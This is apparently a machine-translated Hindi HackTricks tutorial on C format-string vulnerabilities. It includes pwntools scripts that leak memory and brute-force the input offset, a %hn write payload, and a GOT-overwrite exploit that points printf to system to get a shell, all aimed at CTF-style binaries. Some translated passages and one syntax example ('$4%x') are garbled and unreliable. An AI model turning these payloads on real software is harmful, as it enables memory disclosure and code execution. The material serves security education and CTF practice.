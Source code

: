 # फॉर्मेट स्ट्रिंग्स

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

* क्या आप **साइबर सुरक्षा कंपनी** में काम करते हैं? क्या आप अपनी **कंपनी को HackTricks में विज्ञापित देखना चाहते हैं**? या क्या आप **PEASS के नवीनतम संस्करण या HackTricks को PDF में डाउनलोड करना चाहते हैं**? [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) की जाँच करें!
* [**द पीएएस फैमिली**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**एनएफटीज**](https://opensea.io/collection/the-peass-family) संग्रह
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* **शामिल हों** [**💬**](https://emojipedia.org/speech-balloon/) [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या **मुझे** **ट्विटर** पर **फॉलो** करें 🐦[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **अपने हैकिंग ट्रिक्स साझा करें, PRs सबमिट करके** [**hacktricks रेपो**](https://github.com/carlospolop/hacktricks) **और** [**hacktricks-cloud रेपो**](https://github.com/carlospolop/hacktricks-cloud) **को**.

</details>

## मूल जानकारी

C में **`printf`** एक फ़ंक्शन है जिसका उपयोग किसी स्ट्रिंग को **प्रिंट** करने के लिए किया जा सकता है। इस फ़ंक्शन की पहली पैरामीटर है **रॉ टेक्स्ट जिसमें फॉर्मेटर्स** होते हैं। उम्मीदवार पैरामीटर जो **रॉ टेक्स्ट से फॉर्मेटर्स** को **बदलने** की उम्मीद करता है।

अन्य संक्रमित फ़ंक्शन हैं **`sprintf()`** और **`fprintf()`**।

संक्रमण उस समय प्रकट होता है जब इस फ़ंक्शन के लिए **हमलावर पाठ का पहला तर्क** उपयोग किया जाता है। हमलावर एक **विशेष इनपुट बना सकता है** जिसमें **printf फॉर्मेट स्ट्रिंग क्षमताएँ दुरुपयोग** करके किसी भी डेटा को पढ़ने और **लिखने के लिए किसी भी पते में (पढ़ने योग्य/लिखने योग्य)** सक्षम होगा। इस तरह से **विचारशील कोड को निष्पादित** करने की क्षमता होगी।

#### फॉर्मेटर्स:
```bash
%08x —> 8 hex bytes
%d —> Entire
%u —> Unsigned
%s —> String
%p —> Pointer
%n —> Number of written bytes
%hn —> Occupies 2 bytes instead of 4
<n>$X —> Direct access, Example: ("%3$d", var1, var2, var3) —> Access to var3
```
**उदाहरण:**

* भेद्य उदाहरण:
```c
char buffer[30];
gets(buffer);  // Dangerous: takes user input without restrictions.
printf(buffer);  // If buffer contains "%x", it reads from the stack.
```
* सामान्य उपयोग:
```c
int value = 1205;
printf("%x %x %x", value, value, value);  // Outputs: 4b5 4b5 4b5
```
* गायब तर्कसंगत:
```c
printf("%x %x %x", value);  // Unexpected output: reads random values from the stack.
```
* fprintf वंशाही:
```c
#include <stdio.h>

int main(int argc, char *argv[]) {
char *user_input;
user_input = argv[1];
FILE *output_file = fopen("output.txt", "w");
fprintf(output_file, user_input); // The user input cna include formatters!
fclose(output_file);
return 0;
}
```
### **पॉइंटर तक पहुंचना**

फॉर्मेट **`%<n>$x`**, जहां `n` एक संख्या है, printf को इंडिकेट करने की अनुमति देता है कि वह n पैरामीटर (स्टैक से) का चयन करे। तो अगर आप printf का उपयोग करके स्टैक से 4वें पैरामीटर को पढ़ना चाहते हैं तो आप यह कर सकते हैं:
```c
printf("%x %x %x %x")
```
और आप पहले से चौथे पैरामीटर तक पढ़ सकते हैं।

या आप यह कर सकते हैं:
```c
printf("$4%x")
```
और सीधे चौथे को पढ़ें।

ध्यान दें कि हमलावर `pr`**`intf` पैरामीटर को नियंत्रित करता है, जिसका अर्थ है कि** जब `printf` को कॉल किया जाता है, तो उसका इनपुट स्टैक में होगा, जिसका मतलब है कि वह विशिष्ट मेमोरी पते स्टैक में लिख सकता है।

{% hint style="danger" %}
इस इनपुट को नियंत्रित करने वाला हमलावर, **स्टैक में विचित्र पते जोड़ सकता है और `printf` को उन्हें एक्सेस करने की अनुमति मिलेगी**। अगले खंड में यह बताया जाएगा कि इस व्यवहार का उपयोग कैसे किया जाए।
{% endhint %}

## **विचित्र पठन**

यह संभव है कि हम **`%n$s`** फॉर्मेटर का उपयोग करें ताकि **`printf`** **पते** को प्राप्त कर सके जो **n स्थान** में स्थित है, उसके बाद और **उसे एक स्ट्रिंग की तरह प्रिंट करें** (0x00 पाए जाने तक प्रिंट करें)। इसलिए यदि बाइनरी का बेस पता है **`0x8048000`**, और हम जानते हैं कि उपयोगकर्ता इनपुट स्टैक में 4 वें स्थान से शुरू होता है, तो बाइनरी की शुरुआत प्रिंट करना संभव है:
```python
from pwn import *

p = process('./bin')

payload = b'%6$s' #4th param
payload += b'xxxx' #5th param (needed to fill 8bytes with the initial input)
payload += p32(0x8048000) #6th param

p.sendline(payload)
log.info(p.clean()) # b'\x7fELF\x01\x01\x01||||'
```
{% hint style="danger" %}
ध्यान दें कि आप पता 0x8048000 को इनपुट की शुरुआत में नहीं रख सकते क्योंकि इस स्ट्रिंग में उस पते के अंत में 0x00 जोड़ दिया जाएगा।
{% endhint %}

### ऑफसेट खोजें

अपने इनपुट के लिए ऑफसेट खोजने के लिए आप 4 या 8 बाइट (`0x41414141`) भेज सकते हैं जिसके बाद **`%1$x`** और **वैल्यू बढ़ाएं** जब तक `A's` प्राप्त नहीं होते।

<details>

<summary>ब्रूट फोर्स प्रिंटएफ़ ऑफसेट</summary>
```python
# Code from https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak

from pwn import *

# Iterate over a range of integers
for i in range(10):
# Construct a payload that includes the current integer as offset
payload = f"AAAA%{i}$x".encode()

# Start a new process of the "chall" binary
p = process("./chall")

# Send the payload to the process
p.sendline(payload)

# Read and store the output of the process
output = p.clean()

# Check if the string "41414141" (hexadecimal representation of "AAAA") is in the output
if b"41414141" in output:
# If the string is found, log the success message and break out of the loop
log.success(f"User input is at offset : {i}")
break

# Close the process
p.close()
```
</details>

### कितना उपयोगी है

किसी भी पठनीय रीड का उपयोग करने के लिए निम्नलिखित काम किये जा सकते हैं:

* **मेमोरी से** **बाइनरी** को **डंप** करें
* **संवेदनशील जानकारी स्थानों तक पहुंचें जहाँ संवेदनशील** **जानकारी** संग्रहित है (जैसे कैनारीज़, एन्क्रिप्शन कुंजी या कस्टम पासवर्ड जैसे इस [**CTF चैलेंज**](https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak#read-arbitrary-value) में)

## **अनियमित लेखन**

फॉर्मेटर **`$<num>%n`** **निर्दिष्ट पते** में **इंडिकेटेड पैरामीटर** में **लिखे गए बाइट्स की संख्या** लिखता है। यदि कोई हमलावर printf के साथ जितने वर्ण लिख सकता है, तो वह **`$<num>%n`** को किसी भी संख्या को किसी भी पते में लिखने के लिए सक्षम हो जाएगा।

भाग्यशाली तौर पर, अंक 9999 लिखने के लिए, इनपुट में 9999 "A" जोड़ने की आवश्यकता नहीं है, इसे करने के लिए फॉर्मेटर **`%.<num-write>%<num>$n`** का उपयोग करना संभव है ताकि **`<num-write>`** संख्या को **`num` स्थान द्वारा संकेत किए गए पते** में लिख सकें।
```bash
AAAA%.6000d%4\$n —> Write 6004 in the address indicated by the 4º param
AAAA.%500\$08x —> Param at offset 500
```
हालांकि, ध्यान दें कि आम तौर पर `0x08049724` जैसे पते लिखने के लिए (जो एक बड़ी संख्या है एक साथ लिखने के लिए), **`$n`** की बजाय **`$hn`** का उपयोग किया जाता है। इससे **केवल 2 बाइट लिखने** की अनुमति होती है। इसलिए यह कार्रवाई दो बार की जाती है, पहले सबसे उच्च 2B के लिए और दूसरी बार सबसे कम वाले के लिए।

इसलिए, यह सुरक्षा दोष किसी भी पते में **कुछ भी लिखने की अनुमति देता है (विवेकात्मक लेखन)**।

इस उदाहरण में, लक्ष्य होगा किसी बाद में बुलाया जाने वाला **GOT** तालिका में एक **कार्य** के **पते** को **अधिलेखित करना**। यद्यपि इससे अन्य विवेकात्मक लेखन से नुकसान हो सकता है:

{% content-ref url="../arbitrary-write-2-exec/" %}
[arbitrary-write-2-exec](../arbitrary-write-2-exec/)
{% endcontent-ref %}

हम एक **कार्य** को **अधिलेखित करेंगे** जो अपने **प्रारंभिक** से **उपयोगकर्ता** से **आर्ग्यूमेंट** प्राप्त करता है और इसे **`system`** **कार्य** की ओर पोइंट करेंगे।\
जैसा कि उल्लिखित है, पता लिखने के लिए आम तौर पर 2 कदम आवश्यक होते हैं: आप **पहले 2 बाइट** पते का लिखते हैं और फिर दूसरे 2 को। इसे करने के लिए **`$hn`** का उपयोग किया जाता है।

* **HOB** पते के 2 उच्च बाइट को बुलाया जाता है
* **LOB** पते के 2 निचले बाइट को बुलाया जाता है

फिर, चाहे जैसा भी हो, आपको **सबसे छोटा पहले** लिखना होगा \[HOB, LOB] और फिर दूसरा।

यदि HOB < LOB\
`[पता+2][पता]%.[HOB-8]x%[offset]\$hn%.[LOB-HOB]x%[offset+1]`

यदि HOB > LOB\
`[पता+2][पता]%.[LOB-8]x%[offset+1]\$hn%.[HOB-LOB]x%[offset]`

HOB LOB HOB\_shellcode-8 NºParam\_dir\_HOB LOB\_shell-HOB\_shell NºParam\_dir\_LOB

{% code overflow="wrap" %}
```bash
python -c 'print "\x26\x97\x04\x08"+"\x24\x97\x04\x08"+ "%.49143x" + "%4$hn" + "%.15408x" + "%5$hn"'
```
{% endcode %}

### Pwntools टेम्पलेट

आप इस प्रकार की सुरक्षा दोष के लिए एक उत्पीड़न तैयार करने के लिए एक **टेम्पलेट** यहाँ पा सकते हैं:

{% content-ref url="format-strings-template.md" %}
[format-strings-template.md](format-strings-template.md)
{% endcontent-ref %}

या यह बुनियादी उदाहरण [**यहाँ से**](https://ir0nstone.gitbook.io/notes/types/stack/got-overwrite/exploiting-a-got-overwrite) मिल सकता है:
```python
from pwn import *

elf = context.binary = ELF('./got_overwrite-32')
libc = elf.libc
libc.address = 0xf7dc2000       # ASLR disabled

p = process()

payload = fmtstr_payload(5, {elf.got['printf'] : libc.sym['system']})
p.sendline(payload)

p.clean()

p.sendline('/bin/sh')

p.interactive()
```
## Format Strings को BOF में उपयोग करना

एक फॉर्मेट स्ट्रिंग व्यवस्थितता की कमी का उपयोग करके **स्टैक के पतों में लिखना** और **बफर ओवरफ्लो** प्रकार की भयंकरता का शोषण करना संभव है।

## अन्य उदाहरण और संदर्भ

* [https://ir0nstone.gitbook.io/notes/types/stack/format-string](https://ir0nstone.gitbook.io/notes/types/stack/format-string)
* [https://www.youtube.com/watch?v=t1LH9D5cuK4](https://www.youtube.com/watch?v=t1LH9D5cuK4)
* [https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak](https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak)
* [https://guyinatuxedo.github.io/10-fmt\_strings/pico18\_echo/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/pico18\_echo/index.html)
* 32 बिट, कोई relro नहीं, कोई कैनेरी नहीं, एनएक्स, कोई पाई, फॉर्मेट स्ट्रिंग का मूल उपयोग तकनीक से झूलसने के लिए ध्वज से फ्लैग लीक करने के लिए (अनुचित निष्पादन धारा को बदलने की आवश्यकता नहीं है)
* [https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html)
* 32 बिट, relro, कोई कैनेरी नहीं, एनएक्स, कोई पाई, फॉर्मेट स्ट्रिंग का उपयोग करके पते `fflush` को जीत फ़ंक्शन (ret2win) के साथ ओवरराइट करने के लिए
* [https://guyinatuxedo.github.io/10-fmt\_strings/tw16\_greeting/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/tw16\_greeting/index.html)
* 32 बिट, relro, कोई कैनेरी नहीं, एनएक्स, कोई पाई, फॉर्मेट स्ट्रिंग का उपयोग करके मुख्य में एक पते लिखने के लिए `.fini_array` में एड्रेस लिखने (ताकि फ्लो एक और बार वापस लूप करे) और `system` को लिखने के लिए GOT तालिका में `strlen` को इंजेक्ट करने के लिए। जब धारा मुख्य में वापस जाती है, `strlen` को उपयोगकर्ता इनपुट के साथ निष्पादित किया जाता है और `system` को इंजेक्ट करने के लिए `strlen` को इंजेक्ट करने के लिए।
